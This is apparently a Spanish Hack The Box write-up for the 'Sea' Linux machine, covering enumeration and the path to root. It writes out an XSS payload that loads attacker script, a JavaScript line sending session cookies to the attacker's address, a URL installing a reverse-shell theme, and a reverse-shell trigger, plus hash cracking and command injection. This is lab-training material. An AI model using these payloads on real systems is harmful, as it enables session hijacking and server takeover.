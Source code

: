 #ctf-machine #hackthebox #easy-machine #linux 

![[Sea.png]]

## Enumeración inicial
Primeramente lanzamos una traza ICMP a la máquina víctima:
![[Pasted image 20240827143316.png]]

Dado que el TTL es cercano a 64, probablemente estemos ante una máquina Linux ya que suelen tener ese valor de TTL.

### Nmap
Hacemos un primer escaneo con `nmap` para detectar los puertos TCP abiertos de la máquina víctima:
![[Pasted image 20240827143510.png]]

Como vemos, solo hay 2 puertos abiertos, los puertos 22 y 80. Por lo que realizamos un segundo escaneo con `nmap` para detectar la versión y servicio que corren para estos dos puertos:
![[Pasted image 20240827143648.png]]

Como vemos se están ejecutando servicios con versión de Ubuntu por lo que podemos decir que se trata de un sistema Linux. Además, vemos que la cookie "PHPSESSID" no tiene establecida la *flag* de "httponly" por lo que podría acontecerse, si fuera posible, un *cookie-hijacking*.


## Enumeración web
Podemos ejecutar `whatweb` para analizar el contenido web del puerto 80:
![[Pasted image 20240827144035.png]]

Como vemos se está utilizando al *cookie* "PHPSESSID" además de que vemos información parecida a la que nos muestra `nmap`.

Si accedemos a la web vemos la siguiente página principal:
![[Pasted image 20240827144153.png]]

Si clicamos en "How to participate" nos redirige a:
![[Pasted image 20240827144232.png]]

Como vemos hay otro link de contacto que si clicamos nos lleva a:
![[Pasted image 20240827144259.png]]

Por lo que debemos de añadir el dominio en el `/etc/hosts` de nuestra máquina:
![[Pasted image 20240827144415.png]]

Una vez añadido ya podemos ver el contenido:
![[Pasted image 20240827144434.png]]

Podemos hacer una prueba insertando una URL que apunte a nuestra máquina para ver si recibimos la solicitud:
![[Pasted image 20240827144923.png]]

Y como vemos recibimos la solicitud:
![[Pasted image 20240827145058.png]]

Pero no parece haber ninguna forma interesante de acontecer un CSRF. Por lo que hacemos un escaneo de directorios con `gobuster`:
![[Pasted image 20240827151048.png]]

Como vemos hay 4 directorios por lo que empezamos a hacer *fuzzing* en la carpeta `/themes`:
![[Pasted image 20240827151428.png]]

Encontramos un directorio "bike" por lo que podemos buscar archivos dentro de este directorio:
![[Pasted image 20240827151914.png]]

Como vemos hay un archivo llamado "version" que si accedemos a él, vemos la versión del *theme*:
![[Pasted image 20240827151640.png]]

Además si accedemos al archivo "summary" vemos lo siguiente:
![[Pasted image 20240827151832.png]]

Se trata de un tema de bicis animadas. Si accedemos al archivo "LICENSE" vemos el creador:
![[Pasted image 20240827152122.png]]

Si buscamos sobre "turboblack" en Google encontramos lo siguiente:
![[Pasted image 20240827153228.png]]

Por lo que seguramente se trate de una web con WonderCMS 3.2.0.

Si buscamos sobre *exploits* de WonderCMS 3.2.0 encontramos el siguiente recurso:
https://shivamaharjan.medium.com/the-why-and-how-of-cve-2023-41425-wondercms-vulnerability-7ebffbff37d2

Este recurso nos dice que se puede acontecer un XSS si se accede a:
```
somesite.com/wondercms/index.php?page=loginURL?”></form><script+src=”http://attacker.ip/xss.js”></script><form+action=”
```

Por lo que si mandamos una URL por el formulario anterior podremos robarle la cookie de sesión al usuario que revisa las páginas de contacto. Por lo que primero creamos un documento JavaScript malicioso para robar la *cookie* de sessión:
```js
document.location='http://10.10.14.204/cookiestealer.php?c='+document.cookie;
```

Y seguidamente enviamos esto en el formulario:
![[Pasted image 20240827154148.png]]


Por lo que recibimos una *cookie* de sesión:
![[Pasted image 20240827154209.png]]

Si cambiamos la *cookie* en el navegador y recargamos obtenemos acceso como administradores:
![[Pasted image 20240827154342.png]]

Como vemos finalmente se trataba de WonderCMS 3.4.2:
![[Pasted image 20240827154731.png]]

Si buscamos vulnerabilidades para obtener RCE para esta version, vemos que si instalamos un tema malicioso con codigo PHP, podremos obtener una webshell. Por lo que seguimos lo que hace este exploit:
https://github.com/prodigiousMind/CVE-2023-41425/blob/main/exploit.py

Primeramente, proporcionamos desde nuestra máquina el archivo main.zip extraído de:
https://github.com/prodigiousMind/revshell/archive/refs/heads/main.zip

Y desde la web como administradores accedemos a:
http://sea.htb/index.php?installModule=http://10.10.14.204/main.zip&directoryName=violet&type=theme&token=72e01e67e2353bdc80a84122e636d08a0fb9fe83dabc1906e932f67ab084edb7

Donde el valor del token lo extraemos desde el código fuente de la web:
![[Pasted image 20240827185040.png]]

Por lo que sí accedemos a http://sea.htb/themes/revshell-main/rev.php tenemos nuestra web shell:
![[Pasted image 20240827185123.png]]

Entonces utilizando los parámetros "lhost" y "lport" podemos entablarnos una *reverse shell*:
http://sea.htb/themes/revshell-main/rev.php?lhost=10.10.14.204&lport=443

Siempre y cuando nos pongamos en escucha con `nc` en el puerto 443:
![[Pasted image 20240827185313.png]]

Por lo que hacemos el tratamiento de la TTY:
![[Pasted image 20240827185413.png]]
![[Pasted image 20240827185445.png]]


## Escalada de privilegios
Si accedemos a `/var/www/sea/data/` vemos un archivo "database.js" con un *hash*:
![[Pasted image 20240827190234.png]]

Podemos intentar *crackearlo* con `hashcat`, pero debemos de quitarle los *scape* `\`:
![[Pasted image 20240827190429.png]]

Como vemos `hashcat` nos dice que se trata del modo "bycrypt" por lo que ejecutamos ese modo junto al diccionario "rockyou.txt":
```bash
hashcat -m 3200 '$2y$10$iOrk210RQSAzNCx6Vyq2X.aJ/D.GuE4jRIikYiWrD3TM/PjDnXm4q' /usr/share/wordlists/rockyou.txt
```

![[Pasted image 20240827190653.png]]

Como vemos conseguimos la contraseña por lo que podemos intentar utilizarla para migrar a otro usuario:
![[Pasted image 20240827191701.png]]

Conseguimos convertirnos en el usuario "amay". Si accedemos a su `/home` podemos ver la primera *flag*:
![[Pasted image 20240827191754.png]]

Si listamos los puertos internos abiertos con `netstat` vemos el puerto 8080 que es bastante extraño.
![[Pasted image 20240827194845.png]]

Por lo que nos transferimos `chisel` a la máquina víctima para poder hacer un *port forwarding*:
![[Pasted image 20240827195052.png]]![[Pasted image 20240827195104.png]]

Y lo ejecutamos para que el puerto 8080 de la máqiuna vícitma se convierta en el puerto 8080 de nuestra máquina:
![[Pasted image 20240827213813.png]]
![[Pasted image 20240827213850.png]]

Una vez hecho el *port forwarding*, podemos hacer un escaneo con `nmap` del puerto 8080 de nuestra máquina (que equivale al de la máquina víctima):
![[Pasted image 20240827214017.png]]

Como vemos se trata de PHP por lo que podemos acceder a la web y ver su contenido:
![[Pasted image 20240827214053.png]]

Nos pide usuario y contraseña por lo que podemos probar con las credenciales del usuario actual "amay":
![[Pasted image 20240827214142.png]]

Obtenemos acceso a lo que parece ser un analizador de *logs*. Si analizamos con `burpsuite` como se tramita la "data" al clicar "analyze", vemos lo siguiente:
![[Pasted image 20240827214609.png]]

Como vemos se está insertando el archivo a visualizar. Si intentamos visualizar archivos como el `/etc/shadow` no podremos, pero sí intentamos concatenar un comando con ";" tenemos RCE:
![[Pasted image 20240827220044.png]]
![[Pasted image 20240827215930.png]]


Por lo que podemos crear un comando que permita obtener una "bash" como *root*:
![[Pasted image 20240827222207.png]]

Finalmente, ejecutamos el binario de "bash" que se ha creado y obtenemos una "bash" como *root*:
![[Pasted image 20240827222111.png]]

Así que si accedemos al directorio `/root` podemos visualizar la última, *flag*:
![[Pasted image 20240827222308.png]]

___
#xss #cookie-hijacking #file-upload-attacks #hash-cracking #abusing-internal-services #command-injection
___
